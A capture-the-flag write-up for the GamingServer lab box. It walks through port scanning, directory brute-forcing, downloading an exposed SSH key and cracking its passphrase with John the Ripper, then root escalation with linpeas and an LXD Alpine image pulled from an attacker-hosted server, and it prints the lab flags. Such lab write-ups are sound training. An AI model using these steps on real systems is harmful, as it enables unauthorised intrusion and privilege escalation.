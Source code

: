 # GamingServer

An Easy Boot2Root box for beginners

Connect with server and start.

We start with RECON

1. Port Scanning
```
rustscan -a 10.10.174.135 -r 1-65535 --ulimit 5000 -- -sV -T4 -oN rustscan_nmap.txt
```
Result
```
[~] The config file is expected to be at "/home/srishti/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.174.135:22
Open 10.10.174.135:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -T4 -oN rustscan_nmap.txt" on ip 10.10.174.135
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 20:21 IST
NSE: Loaded 47 scripts for scanning.
Initiating Ping Scan at 20:21
Scanning 10.10.174.135 [4 ports]
Completed Ping Scan at 20:21, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:21
Completed Parallel DNS resolution of 1 host. at 20:21, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:21
Scanning 10.10.174.135 [2 ports]
Discovered open port 22/tcp on 10.10.174.135
Discovered open port 80/tcp on 10.10.174.135
Completed SYN Stealth Scan at 20:21, 0.24s elapsed (2 total ports)
Initiating Service scan at 20:21
Scanning 2 services on 10.10.174.135
Completed Service scan at 20:21, 6.49s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.174.135.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.86s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.83s elapsed
Nmap scan report for 10.10.174.135
Host is up, received timestamp-reply ttl 60 (0.19s latency).
Scanned at 2025-07-03 20:21:12 IST for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.92 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)

```
So two ports are open port 22 and port 80

2. Website recon
We go to the website at port 80 and it shows us a webpage.

Will hit the Ctrl+U to view the source page.

So, in comment we saw a comment which talking to John. So, maybe it is a username.

We also have many options to go.
When we click on the Draagon lore and we get the upload option.
When we click it, it takes us to the upload directory which have following directories.

 We have a directory which include the password, so we save it on the pc.
 ```
 wget "http://10.10.174.135/uploads/dict.lst"
```

3. Directory Search
```
 gobuster dir -u http://10.10.174.135/ -w /usr/share/wordlists/rockyou.txt
```
We found the directory \secret

We have a secret key
RSA key

```
wget "http://10.10.174.135/secret/secretKey"
```
Run the command to make key accessible
```
chmod 600 secretKey
```
In our rustscan, we see there is ssh open

Now we have potential username, password and key

We can try ssh into the machine.

And the key need a passphrase
So, we have password list we will use john the ripper

```
ssh2john secretKey > john.txt
```
```
john john.txt --wordlist=dict.lst
```

And we get the password - `letmein`

So we start the ssh

```
ssh -i secretKey john@10.10.174.135
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  3 16:12:39 UTC 2025

  System load:  0.0               Processes:           105
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for ens5: 10.10.174.135
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```
And we get the first user flag here

What is the user flag?
`a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`

Now we can do the further enumeration

We run the linpeas in the server to find vulnerabities anf find their is lxd vulnerability.
On attacker terminal
```
cd /usr/share/peass/linpeas
python3 -m http.server 8000
```
On target
```
cd /dev/shm
wget http://<your-IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linlog.txt
```
Now we know there is lxd vulnerabilites

On attacker terminal
```
git clone "https://github.com/saghul/lxd-alpine-builder/"
cd lxd-alpine-builder/
./build-alpine
python3 -m http.server
```
0n target terminal 
```
wget "http://<your-ip>:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz"
wget "http://<your-ip>:8000/lxc_privesc.sh"
chmod +x lxc_privesc.sh
./lxc_privesc.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
```
And we get the root access
```
ls
whoami
pwd
ls
cd home
ls -la
cd /mnt
ls
cd root
cat root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
Flag root
2e337b8c9f3aff0c2b3e8d4e6a7c88fc














